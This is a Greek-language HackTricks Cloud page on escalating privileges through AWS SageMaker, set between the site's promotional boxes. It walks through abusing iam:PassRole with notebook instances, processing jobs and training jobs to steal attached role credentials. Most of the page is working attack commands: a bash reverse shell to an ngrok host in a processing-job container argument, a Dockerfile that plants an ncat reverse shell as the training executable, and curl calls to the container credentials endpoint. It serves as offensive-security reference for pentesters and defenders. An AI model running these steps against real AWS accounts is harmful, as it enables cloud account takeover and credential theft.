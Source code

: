 # AWS - Ανέβασμα Προνομίων Sagemaker

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Ξεκινήστε τη δημιουργία ενός notebook με τον ρόλο IAM που έχει πρόσβαση σε αυτόν που είναι συνδεδεμένος:
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Η απάντηση θα περιέχει ένα πεδίο `NotebookInstanceArn`, το οποίο θα περιέχει το ARN της νέας δημιουργημένης παρουσίας σημειωματαρίου. Στη συνέχεια, μπορούμε να χρησιμοποιήσουμε το API `create-presigned-notebook-instance-url` για να δημιουργήσουμε ένα URL που μπορούμε να χρησιμοποιήσουμε για να αποκτήσουμε πρόσβαση στην παρουσία σημειωματαρίου όταν είναι έτοιμη:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Πλοηγηθείτε στο URL με τον περιηγητή και κάντε κλικ στο "Άνοιγμα JupyterLab" στην πάνω δεξιά γωνία, στη συνέχεια κατέβετε στην καρτέλα "Εκκινητής" και κάτω από την ενότητα "Άλλα", κάντε κλικ στο κουμπί "Τερματικό".

Τώρα είναι δυνατή η πρόσβαση στα διαπιστευτήρια μεταδεδομένων του IAM Role.

**Πιθανές Επιπτώσεις:** Ανέβασμα δικαιωμάτων στον καθορισμένο ρόλο της υπηρεσίας sagemaker.

## `sagemaker:CreatePresignedNotebookInstanceUrl`

Εάν υπάρχουν ήδη εκτελούμενα Jupyter **notebooks** σε αυτό και μπορείτε να τα καταγράψετε με την εντολή `sagemaker:ListNotebookInstances` (ή να τα ανακαλύψετε με οποιονδήποτε άλλο τρόπο). Μπορείτε να **δημιουργήσετε ένα URL για αυτά, να τα αποκτήσετε πρόσβαση και να κλέψετε τα διαπιστευτήρια, όπως περιγράφεται στην προηγούμενη τεχνική**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Πιθανές Επιπτώσεις:** Ανέβασμα δικαιωμάτων στον ρόλο υπηρεσίας sagemaker.

## `sagemaker:CreateProcessingJob,iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να κάνει το **sagemaker να εκτελέσει ένα processing job** με έναν ρόλο sagemaker που είναι συνδεδεμένος με αυτό. Ο επιτιθέμενος μπορεί να καθορίσει τον ορισμό του container που θα εκτελεστεί σε ένα **AWS managed ECS account instance** και να **κλέψει τα διαπιστευτήρια του ρόλου IAM που είναι συνδεδεμένος**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Πιθανές Επιπτώσεις:** Ανέβασμα δικαιωμάτων στον καθορισμένο ρόλο της υπηρεσίας sagemaker.

## `sagemaker:CreateTrainingJob`, `iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες θα μπορεί να δημιουργήσει έναν εκπαιδευτικό έργο, εκτελώντας έναν αυθαίρετο container σε αυτόν με έναν συνδεδεμένο ρόλο. Επομένως, ο επιτιθέμενος θα μπορεί να κλέψει τα διαπιστευτήρια του ρόλου.

{% hint style="warning" %}
Αυτό το σενάριο είναι πιο δύσκολο να εκμεταλλευτείτε από το προηγούμενο, επειδή πρέπει να δημιουργήσετε ένα Docker image που θα στείλει τον αντίστροφο shell ή τα διαπιστευτήρια απευθείας στον επιτιθέμενο (δεν μπορείτε να υποδείξετε μια εντολή εκκίνησης στη διαμόρφωση του εκπαιδευτικού έργου).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Πιθανές Επιπτώσεις:** Ανέβασμα δικαιωμάτων στον καθορισμένο ρόλο της υπηρεσίας sagemaker.

## `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες θα μπορούσε (πιθανώς) να δημιουργήσει ένα **υπερπαράμετρο εκπαίδευσης**, **εκτελώντας έναν αυθαίρετο container** με έναν **ρόλο που του είναι επισυναπτόμενος**.\
_Δεν έχω εκμεταλλευτεί αυτό λόγω έλλειψης χρόνου, αλλά μοιάζει με τις προηγούμενες εκμεταλλεύσεις, μπορείτε να στείλετε ένα PR με τις λεπτομέρειες της εκμετάλλευσης._

# Αναφορές
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** Ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Συμμετάσχετε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας στο hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
